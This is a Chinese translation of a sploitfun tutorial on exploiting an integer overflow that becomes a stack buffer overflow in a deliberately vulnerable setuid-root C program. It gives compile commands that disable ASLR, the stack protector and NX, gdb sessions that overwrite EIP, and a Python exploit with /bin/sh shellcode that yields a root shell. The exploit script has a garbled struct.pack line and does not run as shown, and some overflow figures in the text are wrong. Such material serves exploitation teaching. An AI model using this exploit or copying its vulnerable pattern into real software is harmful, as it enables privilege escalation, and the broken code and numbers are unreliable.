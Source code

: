 # 整数溢出

> 译者：[hackyzh](http://bbs.pediy.com/user-694899.htm)

> 原文：[Integer Overflow](https://sploitfun.wordpress.com/2015/06/23/integer-overflow/)

虚拟机安装：Ubuntu 12.04（x86）

**什么是整数溢出？**

存储大于最大支持值的值称为整数溢出。整数溢出本身不会导致任意代码执行，但整数溢出可能会导致堆栈溢出或堆溢出，这可能导致任意代码执行。在这篇文章中，我将仅谈论整数溢出导致堆栈溢出，整数溢出导致堆溢出将在后面的单独的帖子中讨论。

数据类型大小及范围：

![](http://upload-images.jianshu.io/upload_images/118142-6adbc36e314e9302.png)

当我们试图存储一个大于最大支持值的值时，我们的值会被包装 。例如，当我们尝试将`2147483648`存储到带符号的`int`数据类型时，它将被包装并存储为`-21471483648`。这被称为整数溢出，这种溢出可能导致任意代码执行

**整数下溢**

类似地，存储小于最小支持值的值称为整数下溢。例如，当我们尝试将`-2147483649`存储到带符号的int数据类型时，它将被包装并存储为`21471483647`.这称为整数下溢。在这里我只会谈论整数溢出，但是这个过程对于下溢也是一样的！

漏洞代码：

```c
//vuln.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void store_passwd_indb(char* passwd) {
}

void validate_uname(char* uname) {
}

void validate_passwd(char* passwd) {
 char passwd_buf[11];
 unsigned char passwd_len = strlen(passwd); /* [1] */ 
 if(passwd_len >= 4 && passwd_len <= 8) { /* [2] */
  printf("Valid Password\n"); /* [3] */ 
  fflush(stdout);
  strcpy(passwd_buf,passwd); /* [4] */
 } else {
  printf("Invalid Password\n"); /* [5] */
  fflush(stdout);
 }
 store_passwd_indb(passwd_buf); /* [6] */
}

int main(int argc, char* argv[]) {
 if(argc!=3) {
  printf("Usage Error:   \n");
  fflush(stdout);
  exit(-1);
 }
 validate_uname(argv[1]);
 validate_passwd(argv[2]);
 return 0;
}
```
编译命令

```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

上述漏洞代码的`[1]`行显示了一个整数溢出错误。`strlen`的返回类型是`size_t`（`unsigned int`），它存储在`unsigned char`数据类型中。因此，任何大于`unsigned char`的最大支持值的值都会导致整数溢出。因此当密码长度为261时，261将被包裹并存储为`passwd_len`变量中的5！由于这个整数溢出，可以绕过行`[2]`执行的边界检查，从而导致基于堆栈的缓冲区溢出！而且在这篇文章中看到，基于堆栈的缓冲区溢出导致任意的代码执行。

在研究漏洞代码之前，为了更好的理解，我们可以反汇编并绘制出漏洞代码的堆栈布局！

反汇编：

```asm
(gdb) disassemble validate_passwd 
Dump of assembler code for function validate_passwd:
 //Function Prologue
 0x0804849e <+0>: push %ebp                               //backup caller's ebp
 0x0804849f <+1>: mov %esp,%ebp                           //set callee's ebp to esp

 0x080484a1 <+3>: push %edi                               //backup edi
 0x080484a2 <+4>: sub $0x34,%esp                          //stack space for local variables
 0x080484a5 <+7>: mov 0x8(%ebp),%eax                      //eax = passwd
 0x080484a8 <+10>: movl $0xffffffff,-0x1c(%ebp)           //String Length Calculation -- Begins here
 0x080484af <+17>: mov %eax,%edx
 0x080484b1 <+19>: mov $0x0,%eax
 0x080484b6 <+24>: mov -0x1c(%ebp),%ecx
 0x080484b9 <+27>: mov %edx,%edi
 0x080484bb <+29>: repnz scas %es:(%edi),%al
 0x080484bd <+31>: mov %ecx,%eax
 0x080484bf <+33>: not %eax
 0x080484c1 <+35>: sub $0x1,%eax                          //String Length Calculation -- Ends here
 0x080484c4 <+38>: mov %al,-0x9(%ebp)                     //passwd_len = al
 0x080484c7 <+41>: cmpb $0x3,-0x9(%ebp)                   //if(passwd_len <= 4 )
 0x080484cb <+45>: jbe 0x8048500 <validate_passwd+98>     //jmp to 0x8048500
 0x080484cd <+47>: cmpb $0x8,-0x9(%ebp)                   //if(passwd_len >=8)
 0x080484d1 <+51>: ja 0x8048500 <validate_passwd+98>      //jmp to 0x8048500
 0x080484d3 <+53>: movl $0x8048660,(%esp)                 //else arg = format string "Valid Password"
 0x080484da <+60>: call 0x80483a0 <puts@plt>              //call puts
 0x080484df <+65>: mov 0x804a020,%eax                     //eax = stdout 
 0x080484e4 <+70>: mov %eax,(%esp)                        //arg = stdout
 0x080484e7 <+73>: call 0x8048380 <fflush@plt>            //call fflush
 0x080484ec <+78>: mov 0x8(%ebp),%eax                     //eax = passwd
 0x080484ef <+81>: mov %eax,0x4(%esp)                     //arg2 = passwd
 0x080484f3 <+85>: lea -0x14(%ebp),%eax                   //eax = passwd_buf
 0x080484f6 <+88>: mov %eax,(%esp)                        //arg1 = passwd_buf
 0x080484f9 <+91>: call 0x8048390 <strcpy@plt>            //call strcpy
 0x080484fe <+96>: jmp 0x8048519 <validate_passwd+123>    //jmp to 0x8048519
 0x08048500 <+98>: movl $0x804866f,(%esp)                 //arg = format string "Invalid Password"
 0x08048507 <+105>: call 0x80483a0 <puts@plt>             //call puts
 0x0804850c <+110>: mov 0x804a020,%eax                    //eax = stdout
 0x08048511 <+115>: mov %eax,(%esp)                       //arg = stdout
 0x08048514 <+118>: call 0x8048380 <fflush@plt>           //fflush
 0x08048519 <+123>: lea -0x14(%ebp),%eax                  //eax = passwd_buf
 0x0804851c <+126>: mov %eax,(%esp)                       //arg = passwd_buf
 0x0804851f <+129>: call 0x8048494                        //call store_passwd_indb

 //Function Epilogue
 0x08048524 <+134>: add $0x34,%esp                        //unwind stack space
 0x08048527 <+137>: pop %edi                              //restore edi
 0x08048528 <+138>: pop %ebp                              //restore ebp
 0x08048529 <+139>: ret                                   //return
End of assembler dump.
(gdb)
```

堆栈布局：

![](http://upload-images.jianshu.io/upload_images/118142-902b36e326333e2c.png)

由于我们已经知道长度为261的密码，所以绕过边界检查，并允许我们覆盖堆栈中的返回地址。让我们通过发送一系列的`A`来测试它。

测试步骤1：是否可以覆盖返回地址？

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*261'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*261'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```

测试步骤2：目的缓冲区的偏移量是多少？

这里让我们从缓冲区`passwd_buf`中找出什么偏移返回地址。反汇编并绘制了`validate_passwd`的堆栈布局，现在可以尝试找到偏移位置信息！堆栈布局显示返回地址位于缓冲区`passwd_buf`的偏移（`0x18`）处。`0x18`计算如下：

```
0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4
```

其中

```
0xb is ‘passwd_buf’ size
0x1 is ‘passwd_len’ size
0x4 is alignment space
0x4 is edi
0x4 is caller’s EBP
```

因此，用户输入的`"A" * 24 + "B" * 4 + "C" * 233`，以`A`覆盖`passwd_buf`，`passwd_len`，对齐空间，edi和调用者的ebp，以`BBBB`覆盖返回地址，以`C`覆盖剩余空间.

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

以上输出显示攻击者可以控制返回地址。位于堆栈位置（`0xbffff1fc`）的返回地址被`BBBB`覆盖。有了这些信息，我们可以编写一个漏洞利用程序来实现任意的代码执行。

利用代码：

```py
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call

arg1 = "sploitfun"

#Stack address where shellcode is copied.
ret_addr = 0xbffff274

#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

#endianess convertion
def conv(num):
 return struct.pack("<I",numunk + RA + NOP's + Shellcode
arg2 = "A" * 24
arg2 += conv(ret_addr);
arg2 += "\x90" * 100
arg2 += scode
arg2 += "C" * 108

print "Calling vulnerable program"
call(["./vuln", arg1, arg2])
```

执行上面的exploit程序，给我们root shell（如下所示）：

```
$ python exp.py 
Calling vulnerable program
Valid Password
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

参考

<http://phrack.org/issues/60/10.html>
